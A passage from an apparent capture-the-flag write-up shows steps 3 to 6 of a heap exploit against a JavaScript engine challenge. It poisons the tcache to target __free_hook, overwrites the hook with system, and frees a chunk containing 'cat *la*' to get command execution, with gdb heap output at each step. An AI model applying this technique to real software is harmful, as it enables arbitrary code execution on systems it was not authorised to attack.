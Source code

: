 #### 3. `chunk->fd = &__free_hook`
```js
free_hook = libc_base + 0x1eee48;
free_hook_str = free_hook.toString(16);

chunk[5] = parseInt(free_hook_str.substring(0, 0 + 2), 16);
chunk[4] = parseInt(free_hook_str.substring(2, 2 + 2), 16);
chunk[3] = parseInt(free_hook_str.substring(4, 4 + 2), 16);
chunk[2] = parseInt(free_hook_str.substring(6, 6 + 2), 16);
chunk[1] = parseInt(free_hook_str.substring(8, 8 + 2), 16);
chunk[0] = parseInt(free_hook_str.substring(10, 10 + 2), 16);
```

```
Tcachebins[idx=29, size=0x1f0] count=2  ←
    Chunk(addr=0x4c9a70, size=0x1f0, flags=PREV_INUSE)  ←
    Chunk(addr=0x7ffff7ddfe48 /* &__free_hook */, size=0x0, flags=! PREV_INUSE)
```

#### 4. Allocate a chunk and write the command for `system` (`cat *la*` worked for our exploit)
```js
chunk2 = new Uint32Array(0x78); // 0x78=0x1e0/4, since we are now using Uint32Array (for no particular reason)
chunk2[1] = 0x2a616c2a; // *la*
chunk2[0] = 0x20746163; // cat
```

```
Tcachebins[idx=29, size=0x1f0] count=1  ←
    Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE) ...
```

#### 5. Allocate the final chunk (`malloc` will return `&__free_hook`)
```js
target = new Uint32Array(0x78);
target[0] = system;         // lower  32 bits of system
target[1] = system_upper;   // higher 32 bits of system
```

#### 6. Free chunk2 containing `cat *la*`
```js
chunk2.midnight() // free the chunk, calling `system("cat *la*")`
```
